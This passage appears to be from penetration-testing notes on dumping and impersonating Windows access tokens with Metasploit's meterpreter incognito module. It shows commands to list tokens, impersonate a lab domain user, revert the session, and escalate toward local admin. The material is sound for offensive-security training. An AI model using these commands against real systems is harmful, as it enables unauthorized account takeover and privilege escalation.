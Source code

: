 ## **Dumping Tokens Using Metasploit**

First of all make sure you have a `meterpreter` shell on our target system

```powershell
meterpreter > load incognito
meterpreter > list_tokens -u
# impersonate_token domain\\user
meterpreter > impersonate_token marvel\\fcastle
```


#### **Example**


![b5tFh1b.png](https://i.imgur.com/b5tFh1b.png)
![](https://i.imgur.com/b5tFh1b.png)


#### **Revert Msfconsole Shell**

This will revert the `meterpreter` session to its original state

```powershell
meterpreter > revself
```


**Since we are able to dump user fcastle token and impersonate it, let do the same for the local admin, first of all switch user from fcastle to the local admin.**


